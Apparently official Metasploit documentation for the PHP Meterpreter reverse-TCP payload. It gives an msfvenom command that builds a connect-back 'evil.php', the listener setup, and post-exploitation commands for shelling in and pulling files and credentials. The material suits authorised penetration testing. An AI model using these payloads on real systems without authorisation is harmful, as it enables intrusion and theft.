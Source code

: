 The php/meterpreter/reverse_tcp is a staged payload used to gain meterpreter access to a compromised system. This is a unique payload in the Metasploit Framework because this payload is one of the only payloads that are used in RFI vulnerabilities in web apps. This module _can_ be cross platform, but the target needs to ba able to run php code.


## Vulnerable Application

  The Php Meterpreter is suitable for any system that supports PHP. For example, the module can be used against webservers which run PHP code for a website. OS X has PHP installed by default.

## Deploying /meterpreter/reverse_tcp
### Scenarios

  Specific demo of using the module that might be useful in a real world scenario.

#### Generating a file with msfvenom
  ```
  msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o evil.php
  ```


#### Starting a listener
  ```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST [IP]
  ```
  
## Important Basic Commands

Compared to a native Meterpreter such as windows/meterpreter/reverse_tcp, the PHP Meterpreter
has less commands, but here's a list of all the common ones you might need:

**pwd command**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cd command**

The ```cd``` command allows you to change directories. Example:

```
meterpreter > cd /Users/thecarterb/Desktop
meterpreter > pwd
/Users/thecarterb/Desktop
```

**cat command**

The ```cat``` command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
Hello World!
```

**upload command**

The ```upload``` command allows you to upload a file to the remote target. This is useful for uploading additional payload files. For example:

```
meterpreter > upload /tmp/data.txt /Users/thecarterb/Desktop
[*] uploading  : /tmp/data.txt -> /Users/thecarterb/Desktop
[*] uploaded   : /tmp/data.txt -> /Users/thecarterb/Desktop/data.txt
meterpreter >
```

**download command**

The ```download``` command allows you to download a file from the remote target to your machine.
For example:

```
meterpreter > download /Users/thecarterb/Desktop/data.txt /tmp/pass.txt
[*] downloading: /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
[*] download   : /Users/thecarterb/Desktop/data.txt -> /tmp/pass.txt/data.txt
meterpreter >
```

**search command**

The ```search``` command allows you to find files on the remote file system. For example,
this shows how to find all text files in the current directory:

```
meterpreter > search -d . -f *.txt
Found 2 results...
    .\pass.txt (13 bytes)
    ./creds\data.txt (83 bytes)
meterpreter >
```

Without the ```-d``` option, the command will attempt to search in all drives.

The ```-r``` option for the command allows you to search recursively.


**getuid command**

The ```getuid``` command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: root
```

**execute command**

The ```execute``` command allows you to execute a command or file on the remote machine.

The following examples uses the command to create a text file:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 73642 created.
meterpreter >
```

**ps command**

The ```ps``` command lists the running processes on the remote machine.

**shell command**

The ```shell``` command allows you to interact with the remote machine's command prompt (or shell).
For example:

```
meterpreter > shell
Process 74513 created.
Channel 2 created.
sh-3.2#
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The ```sysinfo``` command shows you basic information about the remote machine. Such as:

* Computer name
* OS name
* Architecture
* Meterpreter type

## Using `post` modules
When using the PHP Meterpreter, you have the feature of using Metasploit's `post` modules on that specific session. By default, most `multi` post modules will work; however, you can also use OS specific modules depending on the OS of the compromised system. For example, if you have a PHP Meterpreter session running on OS X, you can use `osx` post modules on that session. 

  __Don't forget to:__
  - Set the `LHOST` datastore option to the connect-back IP Address
  - If you want to get multiple shells, set `ExitOnSession` to `false`
